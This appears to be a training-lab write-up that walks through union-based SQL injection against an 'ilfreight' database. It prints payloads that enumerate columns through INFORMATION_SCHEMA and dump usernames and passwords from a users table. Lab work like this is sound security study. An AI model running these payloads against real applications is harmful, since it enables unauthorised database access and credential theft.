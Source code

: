       
    
      
    
      
    
      
    

## task

we need to knew the password of a user

we can find it in user’s table

in ilfreight database

solve:

we are already in ilfreight database .

we new that there is a db called (inforamtion schema) that contains

tables about(tables , columns , databases)

we want to access → a table called users

```
' union select 1,username,password,NULL from ilfreight.users  -- -
```

we can also enter user table directly as we already in it db

but there is a problem we need to see how many columns on it and there names via informaition schema . columns because we are going to union users table with our 3 columns table

```
' union select 1,column_name ,table_schema, 4 from INFORMATION_SCHEMA.COLUMNS -- -
```

WE WILL ALSO use a condition to be faster

```
' union select 1,column_name ,table_schema, table_name from INFORMATION_SCHEMA.COLUMNS where table_name='users' -- -
```

okay we found it

|   |   |   |   |   |   |   |   |   |
|---|---|---|---|---|---|---|---|---|
|id|||ilfreight|||users|||
|username|||ilfreight|||users|||
|password|||ilfreight|||users|||

we also found another table called users but it is in another db so it is not what we are looking for .

okay so now we have 3 columns called ( id, username, password )

```
' union select 1,id,username,password from ilfreight.users -- -
```
